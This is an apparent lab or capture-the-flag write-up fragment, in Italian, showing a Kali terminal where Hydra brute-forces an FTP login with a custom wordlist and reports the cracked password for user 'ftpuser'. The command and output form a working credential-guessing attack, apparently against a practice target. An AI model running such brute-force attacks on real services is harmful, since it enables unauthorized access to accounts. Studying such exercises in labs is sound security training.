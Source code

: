 1)  nano wordlistrabbit.txt


┌──(kali㉿kali)-[~]
└─$ hydra -l ftpuser -P /home/kali/wordlistrabbit.txt ftp://10.10.116.11 
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-12-05 15:12:52
[DATA] max 16 tasks per 1 server, overall 16 tasks, 82 login tries (l:1/p:82), ~6 tries per task
[DATA] attacking ftp://10.10.116.11:21/
[21][ftp] host: 10.10.116.11   login: ftpuser   password: 5iez1wGXKfPKQ
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-12-05 15:13:06

2) Abbiamo scoperto:
- username: ftpuser 
- password:  5iez1wGXKfPKQ